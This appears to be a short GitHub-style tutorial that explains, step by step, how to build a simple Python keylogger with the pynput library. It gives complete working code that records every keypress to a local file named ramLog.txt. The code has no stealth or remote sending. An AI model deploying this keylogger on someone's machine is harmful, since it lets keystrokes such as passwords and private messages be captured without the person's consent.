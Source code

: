 Simple keylogger made using Python

Below is the tutorial and explanation for buiding the keylogger:

1. Install pynput library

py -m pip install pynput


pynput lets you monitor and control input devices like the keyboard and mouse in Python. Install pynput in the command prompt of your device.

2. Import required modules

import pynput
from pynput.keyboard import Key, Listener


pynput provides access to input devices
Key helps detect special keys like Enter, Space, Shift, etc
Listener listens for keyboard events (key press or release)

3. Define function to write key to a log file

def write_file(key):
    with open("ramLog.txt", 'a') as logKey:
        if hasattr(key, 'char') and key.char:
            logKey.write(key.char)
        else:
            logKey.write(f'[{key}]')


Opens or creates ramLog.txt in append mode ('a')
Checks if the key has a printable character (key.char)
If yes, it writes the character (e.g., "a", "b", "1")
If not (like Key.space, Key.enter), it writes the key in brackets (e.g., [Key.space])

4. Define the Key Press Handler

def on_press(key):
    print(f"{key} pressed")
    write_file(key)


This function is triggered whenever a key is pressed
Prints the key to the console and then calls write_file() function to save it to the log file

5. Start the Listener

with Listener(on_press=on_press) as listener:
    listener.join()


Starts listening for key presses using the on_press function.
listener.join() keeps the program running and listening until manually stopped.
